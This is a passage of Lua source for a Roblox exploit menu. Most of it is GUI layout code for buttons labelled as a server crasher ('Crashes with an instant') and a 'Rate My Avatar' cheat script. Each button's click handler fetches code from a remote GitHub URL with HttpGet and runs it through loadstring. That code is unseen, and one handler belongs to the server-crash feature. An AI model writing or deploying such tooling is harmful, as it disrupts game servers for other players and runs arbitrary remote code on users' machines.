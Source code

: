 	loadstring(game:HttpGet(('https://raw.githubusercontent.com/plugss/ratemyavatar/main/README.md'),true))()

end)

UICorner_3.Parent = RunButtonCrash

Information.Name = "Information"
Information.Parent = CrashServer
Information.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
Information.BackgroundTransparency = 1.000
Information.Position = UDim2.new(0.125874132, 0, 0.294520557, 0)
Information.Size = UDim2.new(0, 110, 0, 34)
Information.Font = Enum.Font.Gotham
Information.Text = "Crashes with an instant"
Information.TextColor3 = Color3.fromRGB(0, 0, 0)
Information.TextSize = 13.000
Information.TextTransparency = 0.580

UICorner_4.Parent = CrashServer

RateMyAvatarscript.Name = "Rate My Avatar script"
RateMyAvatarscript.Parent = MainThing
RateMyAvatarscript.BackgroundColor3 = Color3.fromRGB(27, 36, 103)
RateMyAvatarscript.Position = UDim2.new(0.32470119, 0, 0.00526422635, 0)
RateMyAvatarscript.Size = UDim2.new(0, 143, 0, 146)

RateMeText.Name = "RateMeText"
RateMeText.Parent = RateMyAvatarscript
RateMeText.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
RateMeText.BackgroundTransparency = 1.000
RateMeText.Position = UDim2.new(0.020979017, 0, 0, 0)
RateMeText.Size = UDim2.new(0, 140, 0, 50)
RateMeText.Font = Enum.Font.Gotham
RateMeText.Text = "Cool script"
RateMeText.TextColor3 = Color3.fromRGB(255, 255, 255)
RateMeText.TextSize = 24.000

RunCoolScript.Name = "RunCoolScript"
RunCoolScript.Parent = RateMyAvatarscript
RunCoolScript.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
RunCoolScript.Position = UDim2.new(0.0559440553, 0, 0.531522274, 0)
RunCoolScript.Size = UDim2.new(0, 126, 0, 49)
RunCoolScript.Font = Enum.Font.Gotham
RunCoolScript.Text = "Run"
RunCoolScript.TextColor3 = Color3.fromRGB(255, 255, 255)
RunCoolScript.TextSize = 24.000
RunCoolScript.MouseButton1Click:connect(function()
	loadstring(game:HttpGet("https://raw.githubusercontent.com/Emplic/m/main/ecool"))()
end)

UICorner_5.Parent = RunCoolScript

Information_2.Name = "Information"
Information_2.Parent = RateMyAvatarscript
Information_2.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
Information_2.BackgroundTransparency = 1.000
Information_2.Position = UDim2.new(0.125874132, 0, 0.294520557, 0)
Information_2.Size = UDim2.new(0, 110, 0, 34)
Information_2.Font = Enum.Font.Gotham
Information_2.Text = "Rma script, OP."
Information_2.TextColor3 = Color3.fromRGB(0, 0, 0)
Information_2.TextSize = 13.000
Information_2.TextTransparency = 0.580
